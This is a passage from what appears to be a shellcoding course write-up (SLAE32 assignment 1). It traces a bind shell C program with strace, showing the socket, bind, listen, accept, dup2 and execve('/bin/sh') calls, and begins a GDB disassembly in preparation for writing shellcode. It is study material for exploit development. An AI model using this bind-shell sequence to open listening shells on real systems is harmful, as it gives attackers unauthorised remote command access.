 **Building and running bind shell C program**<br/>
<img src="{{ site.url }}/assets/img/slae32/01-01.png"/>

**Showing port 9999 now listening**<br/>
<img src="{{ site.url }}/assets/img/slae32/01-02.png"/>

**Connecting to bind shell**<br/>
<img src="{{ site.url }}/assets/img/slae32/01-03.png"/>

## Phase 2: Understanding how parameters are passed around using strace and GDB
The idea of debugging this was to set a breakpoint at each system call and analyze the registers and stack to see what is needed at the point of the call.  With this information we can then come up with our own way to get the same values setup properly in a shellcode safe manner.

We can get a quick view of the calls with strace as seen here (this is useful and is helpful when looking at the assembly dump in GDB). In most cases, you can see the value of each parameter that was used to the function calls which would be either on the stack or in one of the registers.  In the case of a parameter value that is enclosed in curly braces {} this is likely a pointer to a struct that resides on the stack.
```
[sengen@manjaro-x86 assignment1]$ strace -e socket,bind,listen,accept,dup2,execve ./bind_shell_c
execve("./bind_shell_c", ["./bind_shell_c"], 0xbfc4b6a8 /* 54 vars */) = 0
socket(AF_INET, SOCK_STREAM, IPPROTO_IP) = 3
bind(3, {sa_family=AF_INET, sin_port=htons(6789), sin_addr=inet_addr("0.0.0.0")}, 16) = 0
listen(3, 1)                            = 0
accept(3, NULL, NULL)                   = 4
dup2(4, 0)                              = 0
dup2(4, 1)                              = 1
dup2(4, 2)                              = 2
execve("/bin/sh", NULL, NULL)           = 0
socket(AF_UNIX, SOCK_STREAM|SOCK_CLOEXEC|SOCK_NONBLOCK, 0) = 5
socket(AF_UNIX, SOCK_STREAM|SOCK_CLOEXEC|SOCK_NONBLOCK, 0) = 5
--- SIGCHLD {si_signo=SIGCHLD, si_code=CLD_EXITED, si_pid=25697, si_uid=1000, si_status=0, si_utime=0, si_stime=0} ---
--- SIGCHLD {si_signo=SIGCHLD, si_code=CLD_EXITED, si_pid=25698, si_uid=1000, si_status=0, si_utime=0, si_stime=0} ---
+++ exited with 0 +++
```

The following is the dump of the main function. I put breakpoints before each function call I was interested in and printed the relevant register or stack information for use when I write my shellcode.
```nasm
gdb$ break main
Breakpoint 1 at 0x6fc
gdb$ run
Breakpoint 1, 0x004006fc in main ()
gdb$ disassemble main
Dump of assembler code for function main:
   0x004006ed <+0>:	lea    ecx,[esp+0x4]
   0x004006f1 <+4>:	and    esp,0xfffffff0
   0x004006f4 <+7>:	push   DWORD PTR [ecx-0x4]
   0x004006f7 <+10>:	push   ebp
   0x004006f8 <+11>:	mov    ebp,esp
   0x004006fa <+13>:	push   ebx
   0x004006fb <+14>:	push   ecx
=> 0x004006fc <+15>:	sub    esp,0x30
   0x004006ff <+18>:	call   0x4005f0 <__x86.get_pc_thunk.bx>
   0x00400704 <+23>:	add    ebx,0x18fc
   0x0040070a <+29>:	mov    eax,gs:0x14
   0x00400710 <+35>:	mov    DWORD PTR [ebp-0xc],eax
   0x00400713 <+38>:	xor    eax,eax
```
